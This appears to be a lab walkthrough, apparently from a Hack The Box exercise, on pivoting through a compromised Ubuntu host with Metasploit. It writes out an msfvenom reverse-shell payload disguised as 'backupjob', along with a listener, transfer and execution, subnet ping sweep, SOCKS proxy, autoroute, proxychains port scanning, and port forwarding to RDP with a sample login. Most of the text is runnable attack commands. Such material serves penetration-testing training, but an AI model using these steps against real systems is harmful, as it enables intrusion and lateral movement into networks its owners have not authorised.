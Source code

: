 You already have a **Meterpreter shell on Ubuntu** (pivot), and now you want to:

- **Scan** or **attack internal targets** like `172.16.5.19` (Windows).
- Do this **through Ubuntu** without using SSH.
- Use **SOCKS proxy**, **proxychains**, and **port forwarding** with Meterpreter.

#### Step 1: Generate Linux Payload for Pivot (Ubuntu)
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=8080 -f elf -o backupjob
```
- `LHOST`: your attack machine IP (HTB VPN)
- `LPORT`: where you'll listen for shell
- `-f elf`: format for Linux binary

#### Step 2: Start Metasploit Listener
```bash
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 8080
run
```

#### Step 3: Transfer and Run Payload on Ubuntu
```bash
scp backupjob ubuntu@<ubuntu_ip>:~/
ssh ubuntu@<ubuntu_ip>
chmod +x backupjob
./backupjob
```
✅ You now have a Meterpreter shell on Ubuntu.
___
### Use ping_sweep Post Module from Ubuntu
From Meterpreter:
```bash
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

This checks which IPs in that subnet (e.g., `172.16.5.19`) respond to ICMP (ping).
___
### Setup SOCKS Proxy on Metasploit (SOCKS4a)
```bash
use auxiliary/server/socks_proxy
set SRVHOST 0.0.0.0
set SRVPORT 9050
set VERSION 4a
run
```
Now you have a local SOCKS proxy at `127.0.0.1:9050`.
#### Add Route via AutoRoute
```bash
use post/multi/manage/autoroute
set SESSION 1  # your Ubuntu meterpreter session
set SUBNET 172.16.5.0
run
```

Confirm Route `meterpreter > run autoroute -p`


### Configure proxychains on Attacker
Edit `/etc/proxychains.conf` and make sure the last line says:
```
socks4 127.0.0.1 9050
```

- Use Proxychains with Nmap `proxychains nmap -p3389 -sT -v -Pn 172.16.5.19

___
### Optional: Meterpreter Local Port Forwarding (portfwd)
If you want to access RDP or a service directly:
```bash
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
- `-l 3300`: Local port on attacker
- `-p 3389`: Port on Windows
- `-r 172.16.5.19`: Windows IP
Then
```bash
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```